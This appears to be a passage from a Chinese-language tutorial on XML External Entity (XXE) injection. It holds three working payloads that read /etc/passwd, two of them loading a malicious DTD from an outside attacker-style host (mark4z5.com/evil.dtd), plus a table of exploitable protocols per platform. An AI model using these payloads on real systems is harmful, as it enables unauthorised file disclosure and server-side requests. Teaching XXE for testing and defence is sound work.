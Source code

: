 xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。

### 2、构建外部实体注入方法

1）直接通过DTD外部实体声明

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY b SYSTEM "file:///etc/passwd/">
]>
<c>&b;</c>
```

2）通过DTD文档引入外部DTD文档，再引入外部实体声明

XML内容：

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
<c>&b;</c>
```

DTD文件内容：

```xml-dtd
<!ENTITY b SYSTEM "file:///etc/passwd/">
```

3）通过DTD外部实体声明引入外部实体声明

先写一个外部实体声明，然后引用的是在攻击者服务器上面的外部实体声明

XML内容

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY %d SYSTEM "http://mark4z5.com/evil.dtd">
    %d;
]>
<c>&b;</c>
```

dtd文件内容：

```xml-dtd
<!ENTITY b SYSTEM "file:///etc/passwd/">
```

**注：外部实体的利用会用到协议如下:**

| LIBXML2 | PHP            | JAVA     | .NET  |
| ------- | -------------- | -------- | ----- |
| file    | file           | http     | file  |
| http    | http           | https    | http  |
| ftp     | ftp            | ftp      | https |
|         | php            | file     | ftp   |
|         | compress.zlib  | jar      |       |
|         | compress.bzip2 | netdoc   |       |
|         | data           | mailto   |       |
|         | glob           | gopher * |       |
|         | phar           |          |       |
